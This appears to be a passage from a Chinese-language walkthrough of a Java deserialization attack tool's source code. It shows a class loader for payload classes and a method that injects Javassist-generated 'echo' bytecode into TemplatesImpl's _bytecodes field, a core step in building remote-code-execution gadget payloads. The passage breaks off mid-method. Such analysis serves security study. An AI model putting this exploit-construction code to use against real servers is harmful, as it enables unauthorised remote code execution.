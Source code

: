    
          1. public interface ObjectPayload<T> { T getObject(Object paramObject) throws Exception;
    
      2.     public static class Utils {
    
      3.         public static Class<? extends ObjectPayload> getPayloadClass(String className) {
    
      4.             Class<? extends ObjectPayload> clazz = null;
    
      5.             try {
    
      6.                 //根据类名获取Class对象
    
      7.                 clazz = (Class)Class.forName("com.summersec.attack.deser.payloads." + StringUtils.capitalize(className));
    
      8.             } catch (Exception exception) {}
    
      9.             return clazz;
    
      10.         }
    
      11.     }
    
      12. }
    
    
    

根据回显方式创建TemplatesImpl对象

通过Javasist生成回显类并转换为字节码赋值给`_bytecodes`属性。

    
          1. public static <T> T createTemplatesImpl(String payload, Class<T> tplClass, Class<?> abstTranslet) throws Exception {
    
      2.         T templates = tplClass.newInstance();
    
      3.         ClassPool pool = ClassPool.getDefault();
    
      4.         //根据名称通过forName加载回显的类
    
      5.         Class<? extends EchoPayload> echoClazz = Utils.getPayloadClass(payload);
    
      6.         EchoPayload<?> echoObj = (EchoPayload)echoClazz.newInstance();
    
      7.         //通过Javasist动态生成回显类
    
      8.         CtClass clazz = echoObj.genPayload(pool);
    
      9.         CtClass superClass = pool.get(abstTranslet.getName());
    
      10.         clazz.setSuperclass(superClass);
    
      11.         byte[] classBytes = clazz.toBytecode();
    
      12.         //将生成的回显类字节码赋值给_bytecodes属性
    
      13.         Field bcField = TemplatesImpl.class.getDeclaredField("_bytecodes");
    
      14.         bcField.setAccessible(true);
    
      15.         bcField.set(templates, new byte[][]{classBytes});
    
      16.         Field nameField = TemplatesImpl.class.getDeclaredField("_name");
    